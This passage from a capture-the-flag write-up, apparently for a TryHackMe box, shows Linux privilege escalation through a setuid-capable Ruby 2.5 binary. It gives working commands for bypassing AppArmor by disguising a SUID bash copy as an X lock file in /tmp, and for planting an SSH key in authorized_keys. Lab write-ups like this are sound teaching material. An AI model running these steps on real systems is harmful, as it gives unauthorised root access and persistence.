

All we really should have to do is spawn a shell using a Ruby command to get root privileges on the box.

```
/usr/bin/ruby2.5 -e 'Process::Sys.setuid(0); exec "/bin/sh"'
```



Hmm, it throws an error saying operation not permitted. This meant that the user running isn't privileged and that the provided UID doesn't match the SUID of who is calling the process. This really didn't make much sense to me as it had the capability set, so I took a bit of time to figure out exactly why this was happening.

Turns out AppArmor was installed on this version of Ruby. Its sole purpose is to bind attributes pertaining to access control to processes rather than users, so that attempts like ours fail.



Checking the configuration file for AppArmor on Ruby v2.5 shows a few permissions regarding files/directories. In particular, we have access to read and write files using this binary to the `/tmp` directory if the file starts with `.X[0–9]` and ends with `-lock`. We can exploit this to copy other binaries to `/tmp` under the guise of valid files and change the SUID bit so that we're able to execute it as a privileged user.

Before doing that, we're going to need to SSH into the box to solve some TTY errors so that everything goes smoothly.

```
#Create keypair on your local machine
$ ssh-keygen -t ed25519

#Copy your public key
$ cat .ssh/id_ed25519.pub

#Echo pubkey contents into authorized_keys file
$ echo "CONTENTS_OF_YOUR_PUBLIC_KEY" >>  ~/.ssh/authorized_keys

#Set correct directory/file permissions (very important for this to work)
$ chmod 700 ~/.ssh
$ chmod 600 ~/.ssh/authorized_keys

#SSH onto the box using privkey
$ ssh -i id_ed25519 alvin@MACHINE_IP
```

An important thing to note here is that we must use Ruby to execute a system command in order to preserve the user's permissions on our Bash copy.  This effectively changes the binaries owner to be root user but still have the SUID bit on it, therefore allowing us to execute it as root user.

```
#Copying Bash to /tmp dir
$ cp $(which bash) /tmp/.X0-lock

#Adding SUID bit onto it
$ chmod +s /tmp/.X0-lock

#Using Ruby to change owner to root and maintain permission bits
$ /usr/bin/ruby2.5 -e 'Process::Sys.setuid(0); exec "cp --preserve=mode /tmp/.X0-lock /tmp/.X1-lock"'
```

Finally, once we confirm that the new bash clone is owned by root and has the SUID bit set, we can spawn a root shell by calling it with `-p`.



Grabbing the final flag under `/root` dir completes this challenge. This box was a pretty fun one, I can see how it can be very challenging if you miss a bit of enumeration. I really enjoyed the privilege escalation vector, because although capabilities on binaries are nothing new, this method was very creative. 

Thanks to [TheCyberGeek](https://tryhackme.com/p/TheCyberGeek) for creating this box; I hope this was helpful to anyone following allong or stuck and happy hacking!
